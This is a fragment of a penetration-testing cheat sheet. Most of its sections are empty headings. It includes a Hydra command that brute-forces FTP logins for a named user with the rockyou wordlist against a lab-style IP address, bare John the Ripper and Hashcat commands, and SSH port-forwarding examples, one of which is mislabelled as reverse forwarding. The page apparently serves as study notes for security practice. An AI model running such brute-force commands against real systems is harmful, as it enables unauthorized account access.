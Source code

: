 List root folder

`echo %SYSTEMROOT%`

#### Tools/Scripts







## Password Attacks

#### Tools/Scripts

#### JohnTheRipper

`john`

#### Hydra

```text
hydra -t 4 -l mike -P rockyou.txt/rockyou.txt -vV 10.10.147.140 ftp

-t 4                    Number of parallel connections per target
-vV                     Sets verbose mode to very verbose, shows the login+pass combination for each attempt
ftp / protocol          Sets the protocol
```

#### Hashcat

`hashcat`

## Port Redirection & Tunneling

SSH tunnel when a username & port running the service to exploit are known

`ssh -L 10000:localhost:10000 <username>@<ip>`

If a site is blocked, traffic can be forwarded to a personal server through reverseSSH port forwarding

 `ssh -L 9000:imgur.com:80 user@example.com `



## Active Directory Attacks

## Metasploit

## Misc

### Guides

### Practice Resources

### Methodology



